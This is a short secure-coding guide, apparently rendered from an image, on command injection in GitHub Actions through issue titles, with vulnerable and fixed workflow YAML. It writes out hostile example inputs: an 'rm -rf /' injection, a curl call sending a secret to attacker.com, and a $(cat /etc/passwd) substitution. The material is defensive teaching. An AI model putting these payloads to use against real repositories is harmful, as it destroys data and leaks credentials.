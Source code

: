 ## Attack Vectors and Prevention

### Attack Vector 1: Command Injection

**Attack**:
```
Issue title: test"; rm -rf /; echo "
```

**Vulnerable**:
```yaml
run: echo "Title is: ${{ github.event.issue.title }}"
# Expands to: echo "Title is: test"; rm -rf /; echo ""
```

**Secure**:
```yaml
env:
  TITLE: ${{ github.event.issue.title }}
run: echo "Title is: $TITLE"
```

### Attack Vector 2: Secret Exfiltration

**Attack**:
```
Issue title: x"; curl http://attacker.com?data=$SECRET; echo "x
```

**Vulnerable**:
```yaml
env:
  SECRET: ${{ secrets.MY_SECRET }}
run: |
  if [[ "${{ github.event.issue.title }}" == "bug" ]]; then
    echo "Bug reported"
  fi
# Can exfiltrate $SECRET
```

**Secure**:
```yaml
env:
  SECRET: ${{ secrets.MY_SECRET }}
  TITLE: ${{ github.event.issue.title }}
run: |
  if [[ "$TITLE" == "bug" ]]; then
    echo "Bug reported"
  fi
# $SECRET is safe
```

### Attack Vector 3: Variable Substitution

**Attack**:
```
Issue title: $SECRET or $(cat /etc/passwd)
```
